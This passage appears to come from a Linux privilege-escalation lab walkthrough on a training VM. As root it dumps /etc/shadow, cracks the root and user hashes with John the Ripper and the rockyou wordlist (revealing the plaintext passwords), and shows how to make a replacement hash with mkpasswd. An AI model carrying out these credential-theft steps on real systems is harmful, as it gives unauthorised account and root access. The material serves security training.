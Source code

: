 ```
rootbash-4.1# cat /etc/shadow
root:$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0:17298:0:99999:7:::
daemon:*:17298:0:99999:7:::
bin:*:17298:0:99999:7:::
sys:*:17298:0:99999:7:::
sync:*:17298:0:99999:7:::
games:*:17298:0:99999:7:::
man:*:17298:0:99999:7:::
lp:*:17298:0:99999:7:::
mail:*:17298:0:99999:7:::
news:*:17298:0:99999:7:::
uucp:*:17298:0:99999:7:::
proxy:*:17298:0:99999:7:::
www-data:*:17298:0:99999:7:::
backup:*:17298:0:99999:7:::
list:*:17298:0:99999:7:::
irc:*:17298:0:99999:7:::
gnats:*:17298:0:99999:7:::
nobody:*:17298:0:99999:7:::
libuuid:!:17298:0:99999:7:::
Debian-exim:!:17298:0:99999:7:::
sshd:*:17298:0:99999:7:::
user:$6$M1tQjkeb$M1A/ArH4JeyF1zBJPLQ.TZQR1locUlz0wIZsoY6aDOZRFrYirKDW5IJy32FBGjwYpT2O1zrR2xTROv7wRIkF8.:17298:0:99999:7:::
statd:*:17299:0:99999:7:::
mysql:!:18133:0:99999:7:::
```

### Run the password cracker program called JohnTheRipper with a rockyou.txt wordlist of choice
```
$ john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
Warning: detected hash type "sha512crypt", but the string is also recognized as "sha512crypt-opencl"
Use the "--format=sha512crypt-opencl" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 2 password hashes with 2 different salts (sha512crypt, crypt(3) $6$ [SHA512 128/128 AVX 2x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
password123      (root)
password321      (user)
2g 0:00:00:41 DONE (2021-01-22 16:00) 0.04857g/s 1498p/s 1532c/s 1532C/s purple93..nene11
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```


### You can replace the string sha512crypt hash
```
root@debian:/home/user/tools/mysql-udf# mkpasswd -m sha-512 thispasssucks
$6$tXzUQ2.kd$3POWDY87nLpxw60kVRZ0ZKCEYRQSGwobxiTrSNjzCsyJRFUbAAP6MH9tluk4Kgh0H/BZH/.oqZmbzzidXDPWD1
```
